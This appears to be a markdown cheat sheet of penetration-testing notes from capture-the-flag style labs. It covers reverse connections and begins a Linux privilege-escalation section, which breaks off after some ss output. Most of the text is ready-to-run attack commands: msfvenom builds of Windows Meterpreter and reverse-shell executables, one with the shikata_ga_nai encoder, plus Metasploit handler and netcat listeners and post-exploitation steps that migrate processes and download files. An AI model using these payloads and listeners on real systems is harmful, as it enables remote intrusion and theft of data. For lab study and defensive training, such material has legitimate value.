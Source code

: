 ## Reverse Connections 

### Meterpreter

**WINDOWS**
Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o rev.exe
# or
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f vbs -o rev.vbs
```

Run Listener on the background
```bash
meterpreter > background
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4443
run -j

# things to do
sessions -l
session 1
meterpreter > sysinfo
meterpreter > run post/windows/manage/migrate
meterpreter > search -f flag.txt
meterpreter > download 'c:\Users\thm\Desktop\flag.txt'
meterpreter > cat 'c:\Users\thm\Desktop\flag.txt'
```
> msf cheatsheet: https://web.archive.org/web/20220607215637/https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/
 
### Netcat Listener

**WINDOWS**
PAYLOAD
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o rev.exe` 
```
Run Listener on the background
```
nc -lvnp 4443
```

## Privilege Escalation 

### Linux

check for Network connections or Running Services
```
agent47@gamezone:~$ ss -tupln
Netid State      Recv-Q Send-Q Local Address:Port               Peer Address:Port
udp   UNCONN     0      0       *:10000               *:*          
udp   UNCONN     0      0       *:68                  *:*          
tcp   LISTEN     0      128     *:22                  *:*          
tcp   LISTEN     0      80     127.0.0.1:3306                *:*   
tcp   LISTEN     0      128     *:10000               *:*          
tcp   LISTEN     0      128    :::22                 :::*          
tcp   LISTEN     0      128    :::80                 :::* 
```
7 Connections, now check runnign services in the ports 
